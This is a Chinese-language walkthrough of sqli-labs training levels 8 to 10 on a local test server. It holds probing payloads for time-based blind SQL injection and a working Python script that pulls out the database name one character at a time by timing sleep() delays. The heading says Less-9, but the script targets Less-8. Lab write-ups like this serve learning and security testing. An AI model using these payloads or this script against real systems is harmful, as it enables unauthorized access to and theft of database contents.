 ## Less-8('单引号闭合bool盲注)

## Less-9   ('单引号闭合,时间盲注)

发现无论输入什么，页面始终都是一样的输出，也没有报错什么的，于是尝试测试时间函数来判断闭合：

```python
?id=1 and sleep(5)--+正常
?id=1' and sleep(5)--+延迟五秒
?id=1" and sleep(5)--+正常
?id=1) and sleep(5)--+正常
```

**因此断定为单引号闭合，可以进行时间盲注**

**脚本如下：**

```python
import requests
import json
import time

url = "http://127.0.0.1/sqli-labs/Less-8/?id=1'"
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):

       payload = url+" and if((ascii(substr(database(),{0},1))>{1}),sleep(5),1)-- ".format(i,mid)

       times = time.time()
       try:
            requests.get(url=payload,timeout=3)  # 设置请求延时时限，上面休眠5秒，因此这里设置时限3秒，超时就丢弃，不等它跑完，提速
       except:
            low = mid+1
       #if time.time() - times >= 2:      # 为真时，即判断正确的时候的条件
          # low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

## Less-10   ("双引号闭合,时间盲注)

同上，只把单引号换成双引号即可。

